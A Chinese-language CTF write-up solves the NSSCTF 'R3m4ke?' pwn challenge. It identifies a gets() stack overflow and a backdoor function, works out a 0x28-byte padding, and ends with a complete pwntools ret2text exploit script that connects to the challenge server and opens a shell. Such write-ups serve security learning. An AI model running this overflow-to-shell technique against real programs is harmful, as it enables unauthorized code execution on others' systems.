







## 基本信息

- 题目名称：[NSSCTF 2022 Spring Recruit]R3m4ke?
- 题目链接：https://www.nssctf.cn/problem/2141
- 考点清单：栈溢出，ret2text

- 工具清单：gdb，python-pwntools

- payloads：详见本文末尾

## 一、看到什么

### 第一轮

-   gdb打开，查看函数



-   查看LookAtMe，是后门函数



-   查看NSS、init，多是一些初始化操作



-   查看main函数，发现漏洞点：gets函数，由此确定攻击方式为 **缓冲区溢出 + ret2text**



-   查看程序信息，64位小端，保护只开NX



## 二、想到什么解题思路

### 第一轮

-   确定攻击方式为 **gets函数缓冲区溢出 + ret2text**

-   分析程序以确定 **padding**
-   反汇编LookAtMe，已确定 **addr = 0x40072c**

-   **padding * b’A’ + p64(addr)** 可实现 **getshell**

## 三、尝试过程和结果记录

### 第一轮

-   分析main反汇编代码，发现给了0x20的栈空间


-   确定 **padding = 0x20 + 8 = 0x28**

-   编写payload



-   测试，一遍过



## 四、Payload

```python
from pwn import *
lc = './r3m4ke1t'
rmt = "node4.anna.nssctf.cn"
po = 28012


ELF(lc)
p = remote(rmt, po)

padding = 0x20 + 8
addr = 0x40072c

payload = b'a' * padding + p64(addr)

p.sendline(payload)
p.interactive()
```

